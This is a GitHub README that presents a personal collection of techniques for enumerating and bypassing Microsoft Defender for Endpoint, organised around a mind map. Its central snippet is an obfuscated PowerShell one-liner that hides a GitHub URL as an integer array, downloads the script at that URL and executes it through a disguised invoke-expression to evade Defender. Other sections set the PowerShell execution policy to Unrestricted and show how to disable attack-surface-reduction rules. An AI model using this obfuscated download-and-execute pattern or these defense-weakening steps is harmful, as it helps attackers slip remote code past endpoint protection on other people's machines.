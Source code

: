 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    MDE[ Microsoft Defender for Endpoint ]
    MDE --> MDEENUM[ Enumerate MDE ]
    MDEENUM --> | fkmde.ps1 | MDEVULN[ Vulnerable Configurations ]
    MDEENUM --> |  Windows UI | MDEVULN[ Vulnerable Configurations ]
    MDEVULN --> | officemacro32.docm | MDEASR[ ASR Misconfiguration ]
    MDEVULN --> | wmiprocess.ps1 | MDEASR
    MDEVULN --> MDEEXCLUSION[ Defender Exclusions ]

    MDE --> MDEBYPASS[ Attempt Defender Bypass ]
    MDEBYPASS --> | ps1-obfuscator.ps1 | MDEBYPASS2[ Defender Bypass ]

    MDE --> MDESSCR[ Find disabled Smart Screen Settings ]
    MDESSCR --> | Smart Screen testing URL | MDESSCR2[ Vulnerable Smart Screen ]

    APP[ Microsoft AppLocker ]
```

## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)

## Enumeration of MDE
### Defender for Endpoint

A collection of enumeration procedures.

* ps1-obfuscator and fkmde:
  ```powershell
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"
  ```
* ps. if unable to run a script on the current system, an execution policy has to be set.
  ```
  Set-ExecutionPolicy Unrestricted -Scope CurrentUser
  ```


## ASR Rules

A collection of PoC's and scripts to test ASR rules and implementations.

![image](https://github.com/user-attachments/assets/00216155-88a4-482c-9225-7296380d0ede)

#### * officemacro32.docm (d4f940ab-401b-4efc-aadc-ad5f3c50688a / 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b)

  ps. If Microsoft is blocking the document due an untrusted source, make sure to check the box in properties to trust.

  Enable & disable ASR rules
  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  ```

![image](https://github.com/user-attachments/assets/63abd5b5-50a2-4f25-aac4-69691ccd0f8b)

#### * wmiprocess.ps1 (d1e49aac-8f56-4280-b9ba-993a6d77406c )

Enable & disable ASR rules
```
Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
```
  
## Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html





